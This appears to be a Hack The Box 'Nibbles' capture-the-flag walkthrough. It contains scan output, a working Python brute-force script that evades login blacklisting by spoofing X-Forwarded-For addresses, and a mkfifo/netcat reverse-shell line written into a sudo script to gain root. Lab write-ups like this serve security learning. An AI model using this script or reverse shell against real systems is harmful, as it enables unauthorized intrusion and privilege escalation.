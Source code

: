 #NIBBLES

##Enumeration

Doing the nmap scan we get 2 open ports

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nmap 10.10.10.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 05:23 EDT
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 28.18 seconds
                                                                                 
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nmap 10.10.10.75 -p 22,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 05:24 EDT
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also did the gobuster scan but counldn't find anything of interest

Taking a look at the source code of the http page we find a very interesting line 
```
< /nibbleblog/ directory. Nothing interesting here! -->
```
So we know that there is a nibbleblog directory which we can explore

Running gobuster on the ```/nibbleblog\``` directory 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.75/nibbleblog/ -q
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin.php            (Status: 200) [Size: 1401]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                              
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]  
```

Opening the ```/admin.php``` we find a login page 
While taking a look at the other directories and files I found that the username is ```admin``` and also that the maximum number of tries that can be done before our ip gets blacklisted is 5 
So that means we cannot bruteforce the password with burpsuit or hydra 

##LOGIN

Now we can write a script to generate random ip's

```
#!/usr/bin/env python3

from random import randint

import requests

# Brute force information
PASSWORD_LIST = '/usr/share/wordlists/rockyou.txt'
RATE_LIMIT = 5
RATE_LIMIT_ERROR = 'Blacklist protection'
LOGIN_FAILED_ERROR = 'Incorrect username or password.'

# Target information
RHOST = '10.10.10.75'
LOGIN_PAGE = '/nibbleblog/admin.php'
TARGET_URL = f'http://{RHOST}{LOGIN_PAGE}'
USERNAME = 'admin'


def attempt_login(password: str, ip: str) -> bool:
    """Performs a login using a given password.

    :param password: The password to try.
    :param ip: Spoof the attacker's IP address with this one.
    :return: True for a successful login, otherwise False.
    """
    headers = {'X-Forwarded-For': ip}
    payload = {'username': USERNAME, 'password': password}
    r = requests.post(
        TARGET_URL, headers=headers, data=payload
    )

    if r.status_code == 500:
        print("Internal server error, aborting!")
        exit(1)

    if RATE_LIMIT_ERROR in r.text:
        print("Rate limit hit, aborting!")
        exit(1)

    return LOGIN_FAILED_ERROR not in r.text


def random_ip() -> str:
    """Generate a random IP address.

    :return: A random IP address.
    """
    return ".".join(str(randint(0, 255)) for _ in range(4))


def run(start_at: int = 1):
    """Start the brute force process.

    :param start_at: Start brute forcing at the password with
     this 1-based index. The number represents the line in
     the password file.
    """
    ip: str = random_ip()
    num_attempts: int = 1

    for password in open(PASSWORD_LIST):
        if num_attempts < start_at:
            num_attempts += 1
            continue

        if num_attempts % (RATE_LIMIT - 1) == 0:
            ip = random_ip()

        password = password.strip()
        print(f"Attempt {num_attempts}: {ip}\t\t{password}")

        if attempt_login(password, ip):
            print(f"Password for {USERNAME} is {password}")
            break

        num_attempts += 1


if __name__ == '__main__':
    run()    
```
Alternatively we can also try some very common passwords 

The password we find is ```nibbles```

##SHELL

Now we need to upload a reverse shell for I found this article which tells exactly how to upload a reverse shell in nibbleblog https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

Following this article I get a reverse shell on my machine

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nc -lvnp 53               
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.75] 40040
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:50:58 up  1:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 2: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/$ whoami
whoami
nibbler
```

##USER --> ROOT

Using the command ```sudo -l ``` to check what sudo permissions our user have
```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh    
```
This means our user can run monitor.sh file as root without password

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
ls
personal  personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls
ls
stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
ls
monitor.sh
```

Now we can edit the file to produce a root shell for us

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 4444 > /tmp/f' >> monitor.sh
< /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 4444 > /tmp/f' >> monitor.sh         
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

And we have a root shell on our machine

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nc -lvnp 4444                                             1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.75] 45874
# whoami
root
# cd /root       
# ls
root.txt
```